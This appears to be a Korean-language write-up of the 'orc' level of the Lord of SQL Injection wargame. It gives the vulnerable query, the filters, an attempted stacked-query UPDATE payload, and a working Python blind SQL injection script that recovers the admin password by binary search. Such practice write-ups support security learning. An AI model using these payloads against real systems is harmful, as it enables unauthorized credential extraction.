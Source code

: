 ```yaml
---
title: "[LOS] orc"
date: 2025-03-25 00:00:00
categories: [Wargame, Lord of SQL Injection]
tags: [webhacking, sqli]
published: True
---
```


# Query

```sql
select id from prob_orc where id='admin' and pw='{$_GET[pw]}'
```

<br>

# Protection

## preg_match

- `prob` 문자열
- `_`
- `.`
- `()`

<br>

## addslashes()

```
$_GET[pw] = addslashes($_GET[pw]);
```

<br>

## if statement

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
```

<br>

# Analysis

- addslashes 함수 수행 전에 쿼리문이 실행된다
- 실행된 쿼리문이 출력이 되지는 않기에 update, insert와 같은 구문을 통해 데이터베이스를 변경할 수 있다.
- `prob` 문자열이 필터링되기에 `?pw=1' or 1=1; update char(0x70726F625F6F7263) set pw='123' where id='admin' %23`와 같은 페이로드를 시도하였지만 변화X
- 첫 번째 쿼리 실행 후 db에서 값을 가져온다면 `<h2>Hello admin</h2>`을 echo하기에 blind sqli 시도 가능

<br>

# exploit code

```python
import requests

url = 'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
cookie = '{PHPSESSID}'

# Get the length of the password
length = 1
while True:
    payload = f"?pw=0' or id='admin' and length(pw)={length} %23 "

    res = requests.get(url=f'{url}{payload}', cookies={'PHPSESSID': cookie})

    if '<h2>Hello admin</h2>' in res.text:
        break

    length += 1

print(f'*** Found length: {length} ***')

# Get the password by binary search
password = ''
for i in range(1, length + 1):

    low = ord('0')
    high = ord('z')
    while low <= high:
        mid = (low + high) // 2
        payload = f"?pw=0' or id='admin' and ord(substring(pw,{i},1))<={mid} %23 "
        res = requests.get(url=f'{url}{payload}', cookies={'PHPSESSID': cookie})

        if '<h2>Hello admin</h2>' in res.text:
            high = mid - 1
        else:
            low = mid + 1
    password += chr(low)
    print(f'Current password: {password}')

print(f'*** Found Password: {password} ***')
```
